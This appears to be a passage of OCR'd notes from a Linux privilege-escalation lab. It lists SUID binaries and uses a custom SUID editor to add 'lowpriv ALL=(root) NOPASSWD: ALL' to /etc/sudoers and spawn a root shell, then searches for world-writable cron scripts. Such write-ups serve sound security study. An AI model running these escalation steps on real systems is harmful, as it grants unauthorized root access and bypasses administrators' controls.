 ```
/usr/bin/procmail
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/kismet_capture
/usr/bin/sudo
/usr/bin/passwd
/usr/local/bin/catme
/bin/umount
/bin/ntfs-3g
/bin/fusermount
/bin/su
/bin/ping
/bin/mount
```

- here is 2 files that we can try
	/usr/sbin/vudo
	/usr/local/bin/catme
```
/usr/sbin/vudo -h
vudo - safely edit the sudoers file
```


usage: vudo [-chqsV] [-f sudoers] [-x output_file]

Options:
```
  -c, --check              check-only mode
  -f, --file=sudoers       specify sudoers file location
  -h, --help               display help message and exit
  -q, --quiet              less verbose (quiet) syntax error messages
  -s, --strict             strict syntax checking
  -V, --version            display version information and exit
  -x, --export=output_file write sudoers in JSON format to output_file
```

### we can use this vudo file to edit the sudoer file
// so we can add our user there
```
/usr/sbin/vudo -f /etc/sudoers
	lowpriv ALL=(root) NOPASSWD: ALL
	:wq!
	sudo bash
```

> Pwned!

### back to lowpriv user - Task 2
```
find /etc/cron* -type f -perm -o+w -exec ls -l {} \;
// the command will search For files that are writeable by everyone
	-rwxrwxrwx 1 root root 47 Feb 21  2018 /etc/cron.hourly/oddjob
```
